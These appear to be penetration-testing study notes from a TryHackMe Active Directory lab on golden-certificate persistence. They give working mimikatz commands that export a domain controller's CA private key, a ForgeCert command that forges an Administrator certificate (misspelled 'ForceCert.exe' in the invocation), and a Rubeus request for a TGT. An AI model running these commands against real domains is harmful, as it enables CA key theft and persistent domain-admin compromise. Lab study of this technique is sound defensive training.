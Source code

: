 - We can use certificates to maintain persistence
- Valid certificate can be used for client authentication to get TGT.
- To prevent this form persistence, blue team needs to revoke the certificate. This is the only way to defend.
# Exploitation
- We need to get the private key of the root CA's certificate, after which we can create our own certificate.
- Usually the key is protected by the HSM (Hardware Security Module).
- If HSM is not used, [[DPAPI]] is used. In such case we can use mimikatz and other tools.
- List certificates stored on the Domain Controller using mimikatz
```powershell
crypto::certificates /systemstore:local_machine
```
- Patching to make the private key exportable
```powershell
privilege::debug
crypto::capi
crypto::cng
```
- Exporting the certificates now
```powershell
crypto::certificates /systemstore:local_machine
# this will export the certificate in .der and .pfx format
# password for these CA cert is "mimikatz"
```
- Now we can sign our own certificate using the `ForgeCert.exe` tool.
```powershell
.\ForceCert.exe --CaCertPath ca-cert.pfx --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath fullAdmin.pfx --NewCertPassword Passw0rd123
```
- The new certificate can be used to ask for a TGT from the domain controller
```powershell
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:fullAdmin.pfx /password:Passw0rd123 /outfile:tgt.kirbi /domain:za.tryhackme.loc /dc:10.10.10.10
```